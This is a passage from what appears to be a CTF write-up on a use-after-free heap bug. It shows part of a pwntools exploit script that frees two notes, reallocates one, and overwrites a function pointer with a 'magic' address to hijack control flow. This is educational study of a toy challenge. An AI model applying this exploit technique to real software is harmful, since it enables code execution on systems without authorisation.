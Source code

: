 ```
    r.recvuntil(":")
    r.sendline(str(idx))
def printnote(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))
#gdb.attach(r)
magic = 0x08048986
addnote(32, "aaaa") # add note 0
addnote(32, "ddaa") # add note 1
delnote(0) # delete note 0
delnote(1) # delete note 1
addnote(8, p32(magic)) # add note 2
printnote(0) # print note 0
```

![image-20201004193351670](UAF.assets/image-20201004193351670.png)



> https://my.oschina.net/u/4345478/blog/4656767